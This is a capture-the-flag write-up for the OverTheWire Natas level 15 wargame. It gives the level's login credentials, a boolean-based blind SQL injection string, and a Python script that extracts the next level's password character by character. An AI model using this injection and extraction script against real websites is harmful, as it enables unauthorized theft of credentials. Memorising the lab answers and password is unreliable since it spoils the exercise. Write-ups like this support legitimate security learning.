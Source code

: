 # Username
natas15

# Password
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

# Web Vulnerbility
Boolean based blind SQL injection

# Method of Solve
identify SQL query will return true or false, then craft a SQL injection which will return True or False and includes
the name of a valid user being natas16.
```
" OR password LIKE '%' AND username='natas16' #
```
from here there is 2 ways to proceed, either slow and painful way of inputing letter in to find the password or
if we are good at using chatgpt or python we can craft a python script to automate this.
```
import requests
import string

URL = "http://natas15.natas.labs.overthewire.org/index.php"
AUTH = ('natas15', '<password_here>')  # replace <password_here> with actual password

CHARS = string.ascii_letters + string.digits  # a-zA-Z0-9

def check_prefix(prefix):
    payload = f'" OR password LIKE BINARY "{prefix}%" AND username="natas16" #'
    params = {'username': payload}
    r = requests.get(URL, auth=AUTH, params=params)
    return "This user exists." in r.text

def main():
    prefix = ""
    print("Starting password extraction...")

    while True:
        found_char = False
        for c in CHARS:
            attempt = prefix + c
            if check_prefix(attempt):
                prefix = attempt
                print(f"Found so far: {prefix}")
                found_char = True
                break
        if not found_char:
            print(f"Password found: {prefix}")
            break

if __name__ == "__main__":
    main()
```
